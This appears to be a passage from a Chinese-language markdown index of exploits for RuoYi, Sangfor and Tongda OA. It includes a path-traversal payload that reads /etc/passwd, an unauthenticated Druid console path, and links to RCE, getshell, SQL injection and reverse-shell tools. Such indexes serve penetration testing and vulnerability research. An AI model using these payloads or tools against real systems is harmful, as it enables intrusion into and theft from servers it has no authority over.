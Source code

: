 - RuoYi <= v4.5.0

```
/common/download/resource?resource=/profile/../../../../etc/passwd
```

Druid 未授权访问

```
/prod-api/druid/index.html
```

[若依后台定时任务一键利用](https://github.com/passer-W/Ruoyi-All)

[Xcheck Java引擎漏洞挖掘&防护识别](https://mp.weixin.qq.com/s/FPMUVoSqc0Lsf5BQx07ADw)

[记一次若依cms后台getshell](https://bkfish.gitee.io/2021/06/26/记一次若依cms后台getshell/)

[用于windows反弹shell的yaml-payload](https://github.com/bkfish/yaml-payload-for-Win)

[若依CMS4.6.0后台RCE](https://www.cnblogs.com/r00tuser/p/14693462.html)

[若依CMS后台getshell](http://www.yongsheng.site/2021/08/31/若依CMS后台getshell/)

## 深信服 Sangfor

[深信服 应用交付管理系统 login 远程命令执行漏洞](https://peiqi.wgpsec.org/wiki/webapp/%E6%B7%B1%E4%BF%A1%E6%9C%8D/%E6%B7%B1%E4%BF%A1%E6%9C%8D%20%E5%BA%94%E7%94%A8%E4%BA%A4%E4%BB%98%E7%AE%A1%E7%90%86%E7%B3%BB%E7%BB%9F%20login%20%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.html)

## 通达OA

[通达OA多处SQL注入漏洞](https://mp.weixin.qq.com/s/DcwDz11f6g7uguuBGsin7A)

[OA-HUNTER/TongDa-OA](https://github.com/OA-HUNTER/TongDa-OA)

[ 通达OA综合利用工具](https://github.com/xinyu2428/TDOA_RCE)

[python编写的多个通达常见漏洞exp](https://github.com/kitezzzGrim/tongda-exp) 

[通达OA V11.5电子邮箱接口SQL注入复现](https://mp.weixin.qq.com/s/3JtV-oVGIyzy9ly6n4fMiA)

[通达OA任意文件上传和文件包含漏洞导致RCE详细代码审计分析及Poc构造复现](https://www.freebuf.com/column/230871.html)

[jas502n/OA-tongda-RCE](https://github.com/jas502n/OA-tongda-RCE)

[通达OA11.6 preauth RCE 0day分析](https://drivertom.blogspot.com/2020/08/oa116-preauth-rce-0day.html)

[poc_and_exp/rce.py](https://github.com/TomAPU/poc_and_exp/blob/master/rce.py)

[通达OA v11.7后台SQL注入到RCE 0day](https://mp.weixin.qq.com/s/rtX9mJkPHd9njvM_PIrK_Q)

[通达OA v11.7 在线用户登录漏洞](https://mp.weixin.qq.com/s/llyGEBRo0t-C7xOLMDYfFQ)

[通达OA11.7 利用新思路（附EXP）](https://mp.weixin.qq.com/s/LJRI04VViL4hbt6dbmGHAw)

[通达OA 后台getshell 新思路](https://www.o2oxy.cn/2738.html)

[通达 OA 11.7 组合拳 RCE 利用分析](https://sec-in.com/article/921)

[通达OA v11.8 存储型XSS 与 命令执行](https://www.tooltool.net/2710355.html)
